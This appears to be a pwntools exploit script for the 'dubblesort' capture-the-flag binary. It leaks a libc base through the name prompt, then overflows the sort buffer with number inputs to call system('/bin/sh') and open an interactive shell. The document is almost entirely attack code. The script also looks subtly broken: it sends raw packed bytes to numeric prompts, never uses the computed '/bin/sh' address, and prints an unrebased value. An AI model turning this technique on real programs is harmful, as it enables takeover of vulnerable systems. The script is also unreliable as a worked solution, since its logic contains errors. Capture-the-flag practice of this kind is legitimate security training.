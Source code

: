 


```
from pwn import *

BIN = "./dubblesort"
elf = ELF(BIN)
libc = ELF("./libc_32.so.6")
system = libc.symbols['system']
print(system)
binsh = next(libc.search(b'/bin/sh\x00'))
print(binsh)


def exploit():
	payload = b"a"*24
	io.recvuntil("What your name :")
	io.sendline(payload)
	leak = u32(io.recv(4))
	libc_base = leak - 0x0a - 0x1b0000
	print("Libc base : ",hex(libc_base))


	syscall = libc_base + system
	bincall = libc_base + binsh

	print("System: ", hex(syscall))
	print("/Bin/sh: ", hex(binsh))

	io.recvuntil("How many numbers do you what to sort :")
	io.sendline(b"35")

	for i in range(24):
		io.recvuntil("number :")
		io.sendline(b"1")
	for i in range(8):
		io.recvuntil("number :")
		io.sendline(p32(syscall))
	for i in range(2):
		io.recvuntil("number :")
		io.sendline(p32(syscall))
	io.interactive()

io = process(BIN)
exploit()


```

